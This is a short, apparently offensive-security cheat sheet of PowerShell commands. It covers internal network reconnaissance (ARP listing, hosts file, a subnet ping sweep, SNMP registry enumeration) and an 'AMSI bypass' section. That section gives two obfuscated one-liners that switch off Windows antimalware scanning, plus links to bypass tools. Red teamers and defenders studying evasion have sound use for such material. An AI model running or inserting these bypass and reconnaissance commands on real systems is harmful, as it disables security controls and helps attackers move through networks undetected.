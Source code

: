 ### ARP

```text
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State
```

### Hosts

```text
Get-Content C:\WINDOWS\System32\drivers\etc\hosts
```

### Ping

```bash
$ping = New-Object System.Net.Networkinformation.Ping
1..254 | % { $ping.send("10.9.15.$_") | select address, status }
```

### SNMP

```text
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

## AMSI bypass

```bash
(old) 
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

(new)
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$field.SetValue($null,$true)


# Testing for Amsi Bypass:
https://github.com/rasta-mouse/AmsiScanBufferBypass

# Amsi-Bypass-Powershell
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

https://blog.f-secure.com/hunting-for-amsi-bypasses/
https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
https://github.com/cobbr/PSAmsi/wiki/Conducting-AMSI-Scans
https://slaeryan.github.io/posts/falcon-zero-alpha.html
```

